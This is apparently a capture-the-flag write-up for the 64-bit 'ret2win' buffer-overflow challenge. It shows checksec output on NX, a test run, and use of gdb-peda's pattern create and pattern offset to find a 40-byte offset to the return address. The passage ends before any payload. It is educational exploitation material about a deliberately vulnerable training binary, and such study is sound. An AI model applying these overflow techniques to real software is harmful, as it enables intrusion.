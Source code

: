 ## Ret2win 64
### running checksec against binary:
```
checksec ret2win
```
![1](https://user-images.githubusercontent.com/46090816/101412085-4701d980-38e2-11eb-9a96-bd956caa7d20.png)

As NX is enabled it means we deal with non-executable stack. 

### Running program
```
run
AAAABBBBCCCCDDDDEEEEFFFFGGGG
```
![1](https://user-images.githubusercontent.com/46090816/101412748-6a795400-38e3-11eb-9cea-fcf6947108af.png)

nothing interesting happens

### Overflow

lets create our pattern and feed it to program

```
pattern create 200
```

![1](https://user-images.githubusercontent.com/46090816/101413074-f12e3100-38e3-11eb-8921-6a5563d2a25a.png)
![1](https://user-images.githubusercontent.com/46090816/101413217-2aff3780-38e4-11eb-9bb6-4ee684970b62.png)

Since this is 64 bit binary RIP won't store part of our input as we can't jump there and execute it. However parts that could't be passed to RIP will be stored on the top of the stack in the  RSP lets find out our offset.
```
gdb-peda$ pattern offset AA0AAFAAbAA1AAGA
AA0AAFAAbAA1AAGA found at offset: 40
```

